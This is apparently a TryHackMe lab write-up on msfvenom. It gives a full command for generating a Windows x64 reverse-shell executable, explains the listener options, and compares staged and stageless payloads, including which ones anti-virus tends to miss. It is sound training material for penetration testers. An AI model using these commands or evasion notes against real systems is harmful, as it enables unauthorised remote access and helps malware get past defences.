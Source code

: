 ## Task 9 - msfvenom 

Msfvenom: the one-stop-shop for all things payload related.

Part of the Metasploit framework, msfvenom is used to generate code for primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit; however, it can also be used to generate payloads in various formats (e.g. ```.exe```, ```.aspx```, ```.war```, ```.py```). It's this latter function that we will be making use of in this room. There is more to teach about msfvenom than could ever be fit into a single room, let alone a single task, so the following information will be a brief introduction to the concepts that will prove useful for this room.

The standard syntax for msfvenom is as follows:
```bash
msfvenom -p <PAYLOAD> <OPTIONS>
```

For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:
```bash
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```
![](https://i.imgur.com/JkWeFLq.png)

Here we are using a payload and four options:
* **-f** ```<format>```
  * Specifies the output format. In this case that is an executable (exe)
* **-o** ```<file>```
  * The output location and filename for the generated payload.
* **LHOST=** ```<IP>```
  * Specifies the IP to connect back to. When using TryHackMe, this will be your tun0 IP address . If you cannot load the link then you are not connected to the VPN .
* **LPORT=** ```<port>```
  * The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.

##### Staged vs Stageless

Before we go any further, there are another two concepts which must be introduced: staged reverse shell payloads and stageless reverse shell payloads.
* Staged payloads are sent in two parts. The first part is called the stager . This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions. Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit multi/handler, which will be covered in the next task.

* Stageless payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.

Stageless payloads tend to be easier to use and catch; however, they are also bulkier, and are easier for an antivirus or intrusion detection program to discover and remove. Staged payloads are harder to use, but the initial stager is a lot shorter, and is sometimes missed by less-effective antivirus software. Modern day antivirus solutions will also make use of the Anti-Malware Scan Interface (AMSI) to detect the payload as it is loaded into memory by the stager, making staged payloads less effective than they would once have been in this area.
